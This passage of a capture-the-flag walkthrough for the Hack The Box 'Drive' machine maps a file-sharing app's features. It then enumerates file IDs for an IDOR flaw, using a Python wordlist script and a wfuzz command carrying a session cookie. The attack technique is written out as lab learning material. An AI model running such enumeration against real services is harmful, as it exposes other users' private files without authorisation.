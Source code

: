 lets visit dashboard

dashboard /home
the dashboard brings us to what files are there and its information
![image](/assets/htb-drive/Pasted_image_20231129062556.png)

- Files
  ![image](/assets/htb-drive/Pasted_image_20231129062623.png)

## upload file

![image](/assets/htb-drive/Pasted_image_20231130083156.png)

- Reserve files
  It lets you reserve files under your name, with this you can essentially edit the content of unreserved files and view it. this will help later

- Unreserve files
  it lets you unreserve files, meaning its out there for anyone to view it and own it under their name

- View file
  ![image](/assets/htb-drive/Pasted_image_20231129062658.png)
  we see that our file number is `112` lets try other files

## idor fuzzing

lets fuzz file
![image](/assets/htb-drive/Pasted_image_20231129064739.png)
99 returns unauth, so we know the file exists

![image](/assets/htb-drive/Pasted_image_20231129064819.png)
999 returns server error so we can conclude the file doesnt exist
python script

```python
f = open("numbers.txt",'w')
for i in range(0,999):
    f.write(str(i)+"\n")
f.close()
```

lets create a wordlist 0-999 and send it to wfuzz to check for other files
cmd:

```bash
wfuzz -u http://drive.htb/FUZZ/getFileDetail/ -w numbers.txt --follow --hw 11 -p localhost:8080 -b "sessionid=wxi6mpbfs1dqhj5b4id8oik2o8fze7po"
-w for wordlist
--follow follows redirect
-p ran it through burp
-b our sessionid
```
